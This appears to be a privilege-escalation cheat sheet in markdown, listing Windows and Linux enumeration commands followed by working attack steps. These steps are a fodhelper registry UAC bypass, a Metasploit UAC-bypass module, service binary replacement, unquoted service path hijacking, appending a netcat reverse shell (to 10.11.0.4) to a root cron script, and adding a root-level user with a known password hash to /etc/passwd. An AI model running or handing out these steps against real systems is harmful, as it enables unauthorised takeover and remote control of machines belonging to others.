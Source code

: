 ### Windows
##### Processes(Windows can't list processes run by privileged users)
tasklist /svc
##### Firewall
netsh advfirewall show currentprofile  
netsh advfirewall show allprofile  
netsh advfirewall firewall show rule name=all
##### Scheduled Tasks
schtasks /query /fo LIST /v
##### Enumerating Unmounted Disks
mountvol
##### Enumerating Device Drivers and Kernel Modules
1. driverquery /v /FO Table  
2. Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer
##### Enumerating Binaries That AutoElevate
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer  
reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer
##### Bypass UAC
```
1. check C:\Windows\System32\fodhelper.exe
2. REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command
3. REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ
4. REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f
5. run fodhelper.exe, whoami /groups
```

```
use exploit/windows/local/bypassuac_eventvwr
set session 1
set target 1(x64,0=x86)
Note to set payload the same arch with malicious file
```
##### Insecure File Permissions
```
1. Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'} # look for services with path in Program Files
2. icacls "service path"
3. replace malicious exe with service executable
4. Get-WmiObject -Class Win32_Service -Property StartMode -Filter "Name='Service Name'"
5. whoami /priv #check out shutdown privileges of user
```
##### Unquoted Service Paths
```
Service Path:
C:\Program Files\My Program\My Service\service.exe
The Service will run the executable in path like this:
C:\Program.exe
C:\Program Files\My.exe
C:\Program Files\My Program\My.exe
C:\Program Files\My Program\My service\service.exe

For example, we could name our executable Program.exe and place it in C:\, or name it My.exe and place it in C:\Program Files. However, this would require some unlikely write permissions since standard users do not have write access to these directories by default.

It is more likely that the software's main directory (C:\Program Files\My Program in our example) or subdirectory (C:\Program Files\My Program\My service) is misconfigured, allowing us to plant a malicious My.exe binary
```

### Linux
##### Kernel exploits
```
OS version:
cat /etc/issue  
cat /etc/*-release  
Kernel Version and Architecture: 
uname -a
```
##### Processes(Linux can list processes run by privileged users)
ps aux
##### Enumerating Readable/Writable Files and Directories
find / -writable(-readable,-executable) -type d(f) 2>/dev/null  
##### Enumerating Unmounted Disks
mount  
lsblk
##### Enumerating Device Drivers and Kernel Modules
1. lsmod  
2. /sbin/modinfo libata
##### Enumerating Binaries That AutoElevate
>Normally, when running an executable, it inherits the permissions of the user that runs it. However, if the SUID permissions are set, the binary will run with the permissions of the file owner. This means that if a binary has the SUID bit set and the file is owned by root, any local user will be able to execute that binary with elevated privileges
 ```
 find / -perm -u=s -type f 2>/dev/null
 ```
 ##### Cronjob to elevate privilege
 ```
 1. grep "CRON" /var/log/cron.log
Jan27 18:00:01 victim CRON[2671]:(root) CMD (cd /var/scripts/ && ./user_backups.sh)
2. ls -lah /var/scripts/user_backups.sh
-rwxrwxrw- 1 root root 52 ian 27 17:02 /var/scripts/user_backups.sh
3. echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.4 1234 >/tmp/f" >> user_backups.sh
4. nc -lnvp 1234
 ```
 ##### Insecure file permission /etc/passwd
 ```
 1. check if users have write permission
 2. openssl passwd evil:
 $1$eWmYOQrX$UHeqHr4pKVFfx1rrFK05B1
 IozRIqhlxS7jo
 3. echo "root2:$1$eWmYOQrX$UHeqHr4pKVFfx1rrFK05B1:0:0:root:/root:/bin/bash" >> /etc/passwd
 4. su root2, enter passwd as evil
 ```
  ##### Insecure file permission /usr/bin/vim.basic
  ```
  vim.basic basically can view any file with root permission if it has suid set, also it can edit /etc/passwd
  ```
